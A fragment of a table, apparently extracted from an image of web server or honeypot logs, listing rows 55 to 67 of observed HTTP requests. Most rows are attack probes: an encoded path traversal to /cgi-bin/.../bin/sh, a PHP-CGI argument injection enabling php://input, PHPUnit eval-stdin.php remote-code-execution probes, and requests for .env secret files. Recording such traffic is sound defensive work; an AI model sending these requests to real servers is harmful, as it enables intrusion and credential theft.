 |  55 |                     1 | PRI * HTTP/2.0                                                                                                                                                                                                                                                                                                                                                                                                   |
|  56 |                     1 | POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1                                                                                                                                                                                                                                                                           |
|  57 |                     1 | POST /hello.world?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
|  58 |                     1 | GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                 |
|  59 |                     1 | GET /vendor/phpunit/phpunit/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                     |
|  60 |                     1 | GET /vendor/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                         |
|  61 |                     1 | GET /vendor/phpunit/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                             |
|  62 |                     1 | GET /vendor/phpunit/phpunit/LICENSE/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
|  63 |                     1 | GET /cache/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
|  64 |                     1 | GET /spool/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
|  65 |                     1 | GET /react/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
|  66 |                     1 | GET /model/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
|  67 |                     1 | GET /repos/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |